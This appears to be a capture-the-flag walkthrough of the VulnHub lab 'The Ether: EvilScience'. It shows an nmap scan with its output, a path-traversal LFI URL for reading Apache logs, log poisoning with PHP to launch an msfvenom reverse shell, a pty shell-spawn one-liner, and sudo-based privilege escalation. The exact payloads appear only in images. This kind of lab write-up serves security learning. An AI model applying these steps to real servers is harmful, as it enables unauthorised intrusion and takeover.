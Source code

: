 

Recon part

host scan:

	nmap -sV -A -Pn 192.168.187.128 -p-

	Starting Nmap 7.40 ( https://nmap.org ) at 2018-01-17 12:51 EST
	Nmap scan report for 192.168.187.128
	Host is up (0.0010s latency).
	Not shown: 65533 closed ports
	PORT   STATE SERVICE VERSION
	22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
	| ssh-hostkey: 
	|   2048 12:09:bc:b1:5c:c9:bd:c3:ca:0f:b1:d5:c3:7d:98:1e (RSA)
	|_  256 de:77:4d:81:a0:93:da:00:53:3d:4a:30:bd:7e:35:7d (ECDSA)
	80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
	|_http-server-header: Apache/2.4.18 (Ubuntu)
	|_http-title: The Ether
	Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
	Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
	Nmap done: 1 IP address (1 host up) scanned in 8.46 seconds



go to web server and find LFI for access apache logs : http://192.168.187.128/?file=../log/access.log#top

As LFI works over a php engine it is a big change that php code injected inside log file will be processed by php:

so:
1. intercept any request to web server
2. inject php code inside


![alt text](https://github.com/s1l3xz/some/blob/master/vuln_hub/The_Ether_EvilScience/inject.jpg)


where "shell" file is generated reverse shell ( generated by msfvenom )




than refresh http://192.168.187.128/?file=../log/access.log#top in browser and php code executed


privilege escalation

spawn to tty shell : python -c 'import pty; pty.spawn("/bin/sh")'    ( see all options https://netsec.ws/?p=337)
see what files can be executed under root user from www-data : sudo -l

![alt text](https://github.com/s1l3xz/some/blob/master/vuln_hub/The_Ether_EvilScience/priv1.png)


got root command execution by CLI injection ( thank Julia team member , I really tried over ssh username injection :(   ) : 


got flag in /root dir inside picture in base64 encoding:

![alt text](https://github.com/s1l3xz/some/blob/master/vuln_hub/The_Ether_EvilScience/flag1.png)


![alt text](https://github.com/s1l3xz/some/blob/master/vuln_hub/The_Ether_EvilScience/flag2.png)

